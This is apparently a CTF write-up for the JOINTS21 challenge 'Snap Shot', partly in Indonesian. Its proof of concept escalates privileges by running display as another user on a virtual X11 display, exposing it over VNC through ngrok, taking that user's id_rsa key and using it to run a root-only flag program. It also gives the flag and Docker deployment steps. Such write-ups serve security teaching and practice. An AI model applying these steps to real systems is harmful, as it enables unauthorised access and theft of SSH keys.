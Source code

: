 ## Judul Soal
Snap Shot

## Deskripsi Soal

> I was told by someone that he bought me a gift. Unfortunately, I need to have a proper access to grab it <br><br>`nc port 22222`<br><br>Note: The service used Paramiko SSH module instead of traditional SSH prompt

---
## Proof of Concept

- Log in using CTFd account to get access to remote server
- By checking user privileges, we found that we can execute `display` as `joints` user
    ```sh
    $ sudo -l
    User user may run the following commands on 76a6f93ed1a9:
        (joints) NOPASSWD: /usr/bin/display
    ```
- Since there're no X11 Display, we need to create ones. Note, since it's using `paramiko` the `&` character may not work as expected. Fortunately, the command still executed
    ```sh
    $ Xvfb :4000 -listen tcp -ac -screen 0 512x512x24 &
    ```
- Since `display` only accept image binary, we need to download an image to the server
    ```sh
    $ wget -O test.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
    ```
- Execute `display` on `test.png` using `:4000` as virtual X11 display & `joints` user. These step can also be replaced by using an external remote display from a Public IP
    ```sh
    $ DISPLAY=:4000 sudo -u joints display test.png &
    ```
- Forward X11 display as VNC traffic
    ```sh
    $ x11vnc -display :4000 -bg -forever -nopw -quiet -listen localhost -xkb
    ```
- Then, simply forward VNC traffic to Public IP using `ngrok` or `SSH Forward`
- Connect to VNC remote server & using `File` prompt, go to `/home/joints/.ash_history` that contains a history of `id_rsa` being downloaded. There's also an `id_rsa` on `/home/joints/.ssh/id_rsa` but it can't be copy-paste-ed
- Download `id_rsa` from the external link & remote ssh as `joints` user from `localhost`. If we check the privileges again we found that `joints` user has privileges to execute `/root/get_flag`
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo -l

    User joints may run the following commands on 76a6f93ed1a9:
        (root) NOPASSWD: /root/get_flag
    ```
- Finally, just execute `/root/get_flag` using `joints` user
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo /root/get_flag

    JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
    ```
---

## Catatan deployment

Konfigurasi `docker` ada di directory `server`. Ganti `port` & limit mem-cpu sesuai kebutuhan.

Note, service nya masih hasil `trial & error`, jadi kemungkinan bisa broken sewaktu2 :'v

```sh
# Build
$ docker-compose build

# Deploy, kalo kena notif connection pool, run lagi :v
$ COMPOSE_PARALLEL_LIMIT=100 docker-compose --compatibility up -d
```

## Flag
JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
